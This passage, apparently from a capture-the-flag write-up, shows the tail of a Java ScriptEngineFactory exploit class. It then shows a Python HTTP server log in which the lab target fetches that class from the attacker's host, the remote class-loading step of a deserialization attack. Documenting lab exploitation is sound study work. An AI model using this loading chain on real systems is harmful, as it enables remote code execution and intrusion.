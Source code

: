 ```java

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

To execute this, I had to host an HTTP server:

```bash
$ sudo python3 -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.10.10.227 - - [12/Jun/2021 00:42:32] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
10.10.10.227 - - [12/Jun/2021 00:42:32] "GET /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
10.10.10.227 - - [12/Jun/2021 00:42:33] "GET /artsploit/AwesomeScriptEngineFactory.class HTTP/1.1" 200 -
```
